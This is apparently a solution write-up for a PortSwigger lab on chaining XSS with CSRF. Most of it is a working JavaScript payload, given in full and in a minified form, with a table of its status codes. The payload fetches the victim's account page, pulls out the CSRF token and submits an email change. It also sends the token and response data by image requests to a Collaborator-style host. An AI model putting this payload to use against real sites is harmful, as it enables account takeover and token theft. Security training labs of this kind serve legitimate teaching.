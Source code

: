 # PortSwigger: [Attacking XSS+CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

Here's a purposefully over-engineered XSS payload, with error-checking for debugging, that grabs a CSRF token before submitting a POST request to the target:

```text
<script>
async function exploit() {
  const accURL = '/my-account/';
  const chgURL = '/my-account/change-email';
  const oastURL = 'https://COLLAB_DOMAIN.oastify.com';
  const newEmail = 'x@x.xyz';

  function logOAST(eventType, data = '') {
    let path = `/${encodeURIComponent(eventType)}`;
    if (data) {
      const maxLen = 100;
      let eventDataString = typeof data === 'object' ? JSON.stringify(data) : String(data);
      if (eventDataString.length > maxLen) {
        eventDataString = eventDataString.substring(0, maxLen) + '...[truncated]';
      }
      path += `/${encodeURIComponent(eventDataString)}`;
    }
    new Image().src = oastURL + path;
  }

  logOAST('EXPLOIT_STARTED');

  try {
    const response = await fetch(accURL);
    if (!response.ok) {
      logOAST('ERROR_FETCH_ACCOUNT_PAGE', `Status-${response.status}_${response.statusText}`);
      return;
    }
    const pageHtml = await response.text();
    logOAST('INFO_ACCOUNT_PAGE_FETCHED');
    let csrfToken;

    const parser = new DOMParser();
    const doc = parser.parseFromString(pageHtml, 'text/html');
    const csrfInput = doc.querySelector('input[name="csrf"]');

    if (csrfInput && csrfInput.value) {
      csrfToken = csrfInput.value;
      logOAST('INFO_CSRF_TOKEN_FOUND', csrfToken);
    } else {
      logOAST('ERROR_CSRF_TOKEN_NOT_FOUND');
      return;
    }

    const formData = new URLSearchParams();
    formData.append('email', newEmail);
    formData.append('csrf', csrfToken);

    logOAST('INFO_SUBMITTING_EMAIL_CHANGE');
    const submitResponse = await fetch(chgURL, {
      method: 'POST',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
      },
      body: formData.toString(),
    });

    if (submitResponse.ok) {
      logOAST('SUCCESS_EMAIL_CHANGE_SUBMITTED');
    } else {
      const errorText = await submitResponse.text();
      logOAST('ERROR_EMAIL_CHANGE_FAILED', `Status-${submitResponse.status}_${submitResponse.statusText}_Body-${errorText}`);
    }
  } catch (error) {
    logOAST('ERROR_SCRIPT_EXCEPTION', error.message || String(error));
  }
  logOAST('EXPLOIT_FINISHED');
}
exploit();
</script>
```

Here's a minified version to get under a character-limit in the vulnerable field:

```javascript
<script>
async function x(){u1='/my-account/';u2='/my-account/change-email';O='https://COLLAB_DOMAIN.oastify.com';E='x@x.xyz';L=(t,d)=>{let p=encodeURIComponent(t);if(d||d===0)p+=`/${encodeURIComponent(d)}`;new Image().src=O+`/${p}`};L('S');try{r1=await fetch(u1);if(!r1.ok){L('E1',r1.status+"_"+r1.statusText);return}h=await r1.text();L('F1');let tk;P=new DOMParser();D=P.parseFromString(h,'text/html');ci=D.querySelector('input[name="csrf"]');if(ci&&ci.value){tk=ci.value;L('CF',tk)}else{L('E2');return}L('S2');r2=await fetch(u2,{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:`email=${E}&csrf=${tk}`});if(r2.ok){L('OK')}else{et=await r2.text();L('E3',r2.status+"_"+r2.statusText+"_"+et)}}catch(ex){L('EX',ex.message||ex)}L('F')}x()
</script>
```

Error code table:

- `EXPLOIT_STARTED` -> `S`
- `ERROR_FETCH_ACCOUNT_PAGE` -> `E1`
- `INFO_ACCOUNT_PAGE_FETCHED` -> `F1`
- `INFO_CSRF_TOKEN_FOUND` -> `CF`
- `ERROR_CSRF_TOKEN_NOT_FOUND` -> `E2`
- `INFO_SUBMITTING_EMAIL_CHANGE` -> `S2`
- `SUCCESS_EMAIL_CHANGE_SUBMITTED` -> `OK`
- `ERROR_EMAIL_CHANGE_FAILED` -> `E3`
- `ERROR_SCRIPT_EXCEPTION` -> `EX`
- `EXPLOIT_FINISHED` -> `F`

